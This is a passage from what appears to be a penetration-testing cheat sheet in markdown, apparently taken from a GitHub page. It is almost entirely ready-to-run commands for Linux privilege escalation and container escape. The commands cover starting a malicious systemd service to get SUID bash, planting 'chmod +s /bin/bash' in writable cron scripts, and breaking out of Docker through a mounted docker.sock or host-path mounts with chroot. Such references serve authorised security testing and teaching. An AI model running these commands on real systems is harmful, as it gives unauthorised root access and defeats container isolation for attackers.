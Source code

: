```bash
systemctl enable privesc.service
systemctl start privesc.service

# Use SUID bash
bash -p
```

#### Cron Job Exploitation
```bash
# Check cron jobs
crontab -l
ls -la /etc/cron*
cat /etc/crontab

# Check for writable cron files
find /etc/cron* -type f -writable 2>/dev/null

# Monitor cron execution
pspy64 # Process monitor tool

# Example: Writable script in cron
echo '#!/bin/bash' > /path/to/writable/script.sh
echo 'chmod +s /bin/bash' >> /path/to/writable/script.sh
chmod +x /path/to/writable/script.sh
```

### Container Escape Techniques

#### Docker Container Escape

**Privileged Container Detection**
```bash
# Check for privileged mode
if [ -c /dev/kmsg ]; then
    echo "Running in privileged container"
fi

# Check capabilities
capsh --print
grep Cap /proc/self/status

# Check for Docker socket mount
ls -la /var/run/docker.sock

# Escape via mounted Docker socket
docker run -v /:/host -it ubuntu chroot /host bash
```

**Host Path Mount Escape**
```bash
# Check for host mounts
mount | grep -E '/host|/proc|/sys'
df -h

# Common escape paths
ls -la /host-root/
ls -la /host-proc/
ls -la /host-sys/

# Chroot to host
chroot /host-root bash
```
